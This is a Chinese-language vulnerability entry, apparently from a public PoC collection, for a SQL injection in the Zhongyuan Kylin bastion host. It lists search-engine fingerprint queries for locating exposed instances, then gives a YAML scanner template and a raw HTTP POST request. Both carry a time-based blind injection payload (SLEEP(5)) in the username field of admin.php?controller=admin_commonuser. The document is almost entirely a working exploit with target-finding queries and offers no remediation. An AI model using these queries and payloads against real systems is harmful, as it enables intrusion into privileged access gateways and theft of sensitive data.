 ## 中远麒麟堡垒机SQL注入
麒麟堡垒机用于运维管理的认证、授权、审计等监控管理。中远麒麟堡垒机存在SQL注入，可利用该漏洞获取系统敏感信息。


检索条件：
cert="Baolei" 或 title="麒麟堡垒机" 或 body="admin.php?controller=admin_index&action=get_user_login_fristauth" 

或 body="admin.php?controller=admin_index&action=login"
```
poc:
  relative: req0 && req1
  session: false
  requests:
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      Content-Type: application/x-www-form-urlencoded
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
    data: username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
    follow_redirects: true
    matches: (code.eq("200") && time.gt("5") && time.lt("10"))
  - method: POST
    timeout: 10
    path: /admin.php?controller=admin_commonuser
    headers:
      User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML,
        like Gecko) Chrome/69.0.2786.81 Safari/537.36
      Content-Type: application/x-www-form-urlencoded
    data: username=admin
    follow_redirects: true
    matches: time.lt("5")

```


## 请求包
```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: ip:port
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 78
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(5)))ptGN) AND 'AAdm'='AAdm
```
